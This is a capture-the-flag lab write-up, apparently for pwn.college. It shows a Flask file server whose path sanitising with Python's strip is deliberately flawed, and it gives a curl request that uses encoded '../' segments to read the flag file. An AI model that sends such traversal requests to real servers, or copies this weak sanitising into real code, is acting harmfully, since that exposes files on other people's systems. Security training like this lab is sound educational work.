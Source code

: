 This is similar to the first one but with a bit of path sanitization.

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)
  
@app.route("/", methods=["GET"])
@app.route("/<path:path>", methods=["GET"])

def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")

    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

The website also returns a list of files that we can access in the `fortunes` directory.

It uses the `strip` method from python to strip any `/` or `.` character from the path string. So if we try our previous solution, it wouldn't work here.

The `strip` method will only remove leading character that matches any of the specified delimiting characters. So once it hits some character that is not in the specified delimiting characters, it will stop stripping.

So we can try accessing the `fortunes` directory to bypass the `strip` function. Then we can traverse upwards in the directory to read the flag.

```bash
curl -v "http://challenge.localhost:80/fortunes%2f..%2f..%2f..%2fflag"
```